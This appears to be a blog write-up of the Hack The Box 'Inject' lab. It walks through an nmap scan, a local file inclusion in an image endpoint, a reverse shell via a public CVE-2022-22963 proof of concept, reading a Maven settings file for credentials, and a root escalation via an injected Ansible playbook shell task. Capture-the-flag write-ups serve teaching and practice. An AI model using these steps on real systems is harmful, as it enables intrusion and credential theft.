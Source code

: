 ```yaml
---
title: "Hack The Box - Inject [Easy]"
date: 2023-04-03T02:01:27+03:00
draft: true
tags: ["hackthebox"]
---
```


The machine is labeled misleadingly *easy*, but that can lead you to miss stuff, so make sure to check **everything**! 

A simple `nmap` scan shows us that `8080` port is open.

```bash
Nmap scan report for 10.10.11.204
Host is up (0.13s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 caf10c515a596277f0a80c5c7c8ddaf8 (RSA)
|   256 d51c81c97b076b1cc1b429254b52219f (ECDSA)
|_  256 db1d8ceb9472b0d3ed44b96c93a7f91d (ED25519)
8080/tcp open  nagios-nsca Nagios NSCA
|_http-title: Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Let's start by simply inspecting the website that is running on port `:8080`.

The website seems like it has an upload form that we can upload images, my initial thought was LFI vulnerability, so I've checked it and I found it.

```
http://10.10.11.204:8080/show_image?img=<vulnerable  to LFI>
```

Now I've wandered around exploring the website's source code and after a bit of digging and searching I was on the verge of giving up. Since the machine is labeled easy, I didn't exactly expect that the way to find a vulnerability is through https://spring.io/security/cve-2022-22963 (CVE-2022-22963) and I overlooked the versions that were listed in the maven build file (which you could exfiltrate from the LFI vulnerability).

After that, a reverse shell using this https://github.com/lemmyz4n3771/CVE-2022-22963-PoC POC was easy-peasy.

While enumerating the users, we can see that we have `root, phil ,frank` and a group that is called `staff`. So changing from `frank` to `phil` was through `/home/frank/.m2/settings.xml` which had the credentials to change the user to `phil`.

You can get your first flag after that.


Changing to root was a bit tricky at first since I was trying to create a new playbook, which caused some errors and I finally decided to use the currently created one with the following payload.

```bash
$ echo '[{hosts: localhost, tasks: [shell: /bin/sh </dev/tty >/dev/tty 2>/dev/tty]}]' > ./playbook_1.yml
<blabla>
$ bash -p
$ whoami
root
```

And there we have it!